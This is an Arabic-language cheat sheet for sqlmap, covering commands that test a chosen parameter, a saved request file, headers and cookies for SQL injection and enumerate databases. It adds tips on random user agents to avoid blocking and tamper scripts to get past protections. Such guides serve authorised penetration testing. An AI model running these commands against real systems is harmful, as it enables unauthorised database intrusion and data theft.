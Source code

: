 
#### 1. اختبار متغير معين (Parameter Testing)
لاختبار متغير معين زي `id`:

```
sqlmap -u "https://example.com/file.ashx?id=1&name=oajof&age=xxx" -p id --technique=BEUSTQ --dbs
```
- **`-p id`**: تحديد المتغير المستهدف.
- **`--technique=BEUSTQ`**: تحديد التكنيكات المستخدمة.
- **`--dbs`**: لجلب قواعد البيانات.

---

#### 2. استخدام ملف الطلبات مع خيارات إضافية
لاختبار ملف طلب محدد مع تحسين الأداء وإضافة خيارات متقدمة:

```
sqlmap -r request.txt --batch --random-agent --tamper=space2comment --drop-set-cookie --banner --threads 10 --dbs
```
- **`--batch`**: تشغيل SQLMap في الوضع التلقائي بدون طلب تأكيدات.
- **`--drop-set-cookie`**: تجاهل الكوكيز المرسلة.
- **`--threads 10`**: تحسين الأداء باستخدام 10 خيوط.
- **`--banner`**: لجلب بيانات بانر قاعدة البيانات.

---

#### 3. اختبار الاستعلامات المتقدمة مع إعدادات مخصصة
لاختبار مستوى معين من المخاطر وتحديد نوع قاعدة البيانات:

```bash
sqlmap -u "target/?offset=1" -p offset --level 5 --risk 3 --dbms=MySQL --hostname --test-filter="MySQL >= 5.0.12 stacked queries" --ignore-code 500
```
- **`--level 5`**: رفع مستوى الاختبار لخيارات أكثر.
- **`--risk 3`**: استخدام إعدادات عالية الخطورة.
- **`--dbms=MySQL`**: تحديد نوع قاعدة البيانات.
- **`--ignore-code 500`**: تجاهل أخطاء الكود 500.

---

#### 4. فحص الكوكيز والـ Headers
لاختبار الكوكيز والـ Headers المرسلة:

```bash
sqlmap -u xxxx --headers="Cookie: *" -H "x-forwarded-for: *" -H "x-forwarded-host: *"
```
- **`--headers`**: تحديد الهيدرز المراد اختبارها.
- **`x-forwarded-for`**: فحص عنوان IP المرسل.
- **`x-forwarded-host`**: فحص الهوست المرسل.

---

### النصائح
1. **استخدام خيارات `--random-agent` و`--tamper`**:
   - **`--random-agent`**: لتجنب الحظر باستخدام وكيل عشوائي.
   - **`--tamper=space2comment`**: تخطي الحماية عن طريق تعديل الاستعلام.
